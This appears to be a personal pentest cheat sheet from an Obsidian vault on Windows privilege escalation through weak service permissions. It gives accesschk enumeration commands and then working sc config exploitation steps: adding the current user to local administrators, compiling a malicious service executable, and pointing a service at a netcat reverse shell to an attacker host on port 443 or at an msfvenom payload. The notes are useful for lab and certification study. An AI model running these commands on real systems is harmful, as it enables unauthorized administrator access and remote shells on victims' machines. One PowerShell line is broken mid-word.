 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Guide:
```
https://www.fuzzysecurity.com/tutorials/16.html
```

```
https://grimmie.net/cyberseclabs-hijack-write-up/#Drupalgeddon
```

Download old version:
```
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula
```

[[4._File Transfers#Certutil]]

#### Weak Service Permissions
Check Program Files directory recursively for writable files:
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

```command prompt - target
accesschk.exe /accepteula -uws "Everyone" "C:\Program Files"
```

IF YOU HAVE A USERNAME:
```
.\accesschk.exe -uwcqv %username% * -accepteula
```

![[Pasted image 20220609125204.png | 500]]

NOTE:
>The SERVICE_ALL_ACCESS permission allows any user on the system to take control of and modify the parameters of the service.

```
sc qc OpenSSHd
```

![[Pasted image 20220609125330.png | 500]]

Now we have a few options to exploit:

#### 1. Add current user to local administrators (Method 1):
```
sc config "OpenSSHd" binPath= "net localgroup administrators %username% /add"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[12._ACCESSCHK#Restart the service]]

OR [[___.Misc Commands#Restart host]]

Check your user was added to local admins:

```
net localgroup administrators
```

#### 2. Add current user to local administrators (Method 2):

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Send to target.

[[12._ACCESSCHK#Restart the service]]
Check your user was added to local admins:

```command prompt - windows
net localgroup administrators
```

#### 3. nc reverse shell:

>SERVICE_START_NAME must say NT AUTHORITY\LocalService

![[Pasted image 20221115143853.png]]

```command prompt - target
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\nc.exe -nv $KALI 443 -e C:\WINDOWS\System32\cmd.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### 4. reverse.exe

[[1._Reverse Shells (WIN)#MSFVenom]]
```
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\Tools\reverse.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### PowerShell
Same thing in PowerShell:
```powershell - target
Get-ChildItem "C:\Program Files" -R
ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

![[2._Automated Tools#PowerUp ps1]]

![[Pasted image 20220207151712.png]]

#### Restart the service
IF YOU RUN INTO AN ERROR (SEE PIC)!  FOLLOW: https://sohvaxus.github.io/content/winxp-sp1-privesc.html

![[Pasted image 20220911155715.png | 1000]]

Set SSDPSRV to AUTOMATIC
NOTE: There is a space between `=` and `auto`. This is important, else the command will fail.
`sc config SSDPSRV start= auto`

Double check if it's set to AUTOMATIC (or AUTO_START)
`sc qc SSDPSRV`

```command prompt - windows
sc stop SSDPSRV
```

```command prompt - windows
sc start SSDPSRV
```

OR

```command prompt - windows
net stop SSDPSRV
```

```command prompt - windows
net start SSDPSRV
```


OR [[___.Misc Commands#Restart host]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
